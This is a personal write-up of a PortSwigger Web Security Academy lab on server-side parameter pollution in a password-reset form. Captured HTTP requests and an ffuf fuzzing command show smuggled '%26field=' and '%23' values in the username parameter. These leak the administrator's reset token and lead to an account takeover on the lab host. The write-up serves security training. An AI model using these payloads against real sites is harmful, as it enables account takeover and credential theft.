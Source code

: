 [Lab](https://portswigger.net/web-security/api-testing/server-side-parameter-pollution/lab-exploiting-server-side-parameter-pollution-in-query-string)

---

I went to `/forgot-password` and captured the `POST` request
###### Request
```http
POST /forgot-password HTTP/2
Host: 0aa500d903bf512581442a8b000f0033.web-security-academy.net
Cookie: session=TOa0Zg54CCJ8kBbureDXG12xsPnm2KcU
Content-Length: 63

csrf=8j53edkx5AosFCVcECeRRgVRUZt0bXbT&username=administrator
```
###### Response
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"result":"*****@normal-user.net","type":"email"}
```

Then I added the `#` in url encoded `%23` and the end to trigger alerts
###### Request
```http
POST /forgot-password HTTP/2
Host: 0aa500d903bf512581442a8b000f0033.web-security-academy.net
Cookie: session=TOa0Zg54CCJ8kBbureDXG12xsPnm2KcU
Content-Length: 63

csrf=8j53edkx5AosFCVcECeRRgVRUZt0bXbT&username=administrator%23
```
###### Response
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 33

{"error": "Field not specified."}
```

This tells me that I should specify a `field`, so I tried the `email` field, still with the `%23` at the end (`#`)
###### Request
```http
POST /forgot-password HTTP/2
Host: 0aa500d903bf512581442a8b000f0033.web-security-academy.net
Cookie: session=TOa0Zg54CCJ8kBbureDXG12xsPnm2KcU
Content-Length: 77

csrf=8j53edkx5AosFCVcECeRRgVRUZt0bXbT&username=administrator%26field=email%23
```

Fuzzing available field with `fuff`
```shell
ffuf -X POST -d 'csrf=77Se0RgI35eMRj64roAt2yupl2rW25pX&username=administrator%26field=FUZZ%23' -b 'session=ZBrYmZ5bp0EQHRqFodLywG1GR21M46EZ' -u 'https://0a6e0041044623c6855f12b80098000f.web-security-academy.net/forgot-password' -w /  
usr/share/sqlmap/data/txt/common-tables.txt -mc 200
```

###### Response
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"result":"*****@normal-user.net","type":"email"}
```

In a js file like `forgot-password.js` (I don't remember the name, I crashed the lab), there is a field called `reset_token`, so I could change the request payload and get back the reset password token
###### Request
```http
POST /forgot-password HTTP/2
Host: 0aa500d903bf512581442a8b000f0033.web-security-academy.net
Cookie: session=TOa0Zg54CCJ8kBbureDXG12xsPnm2KcU
Content-Length: 77

csrf=8j53edkx5AosFCVcECeRRgVRUZt0bXbT&username=administrator%26field=reset_token%23
```

This gave me the token in response and I had to go on `/reset-password?reset_token=[token]` to be able to reset the `administrator` password

